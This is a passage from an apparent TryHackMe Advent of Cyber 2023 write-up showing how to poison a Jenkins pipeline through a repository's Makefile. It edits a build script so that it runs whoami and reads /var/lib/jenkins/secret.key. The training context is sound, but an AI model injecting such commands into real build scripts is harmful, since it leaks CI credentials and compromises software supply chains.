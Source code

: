 ![Advent of Cyber 2023 Day 20 - Write Protected](tryhackme/images/aoc2023d20_write_protected.png)

Looking back at the Jenkinsfile, we see that it uses `make` which can be used to define a set of rules to execute steps, such as commands. The makefile is defined within the `gift-wrapper` repo which means it may have different protections than the pipeline repository, allowing an attacker to add malicious commands to it.

```console
$ git clone http://<GITEA_IP>:3000/McHoneyBell/gift-wrapper.git
```

From the Makefile, we can see it executes commands within a `to_pip.sh` script which we can modify to contain our commands:

```
build:
	./to_pip.sh
```

```bash
#!/bin/bash

mkdir -p tests
rm -rf dist/

whoami
uname -r

cat /var/lib/jenkins/secret.key

# python3 setup.py sdist bdist_wheel

# for testing
#cat ~/.home/.pypirc_test
#twine upload --repository testpypi dist/*

# for production
# twine upload dist/*
```

Attempting to push the changes, we see that our commit is successful. We can then run this build within Jenkins and retrieve the information we need for the challenge:

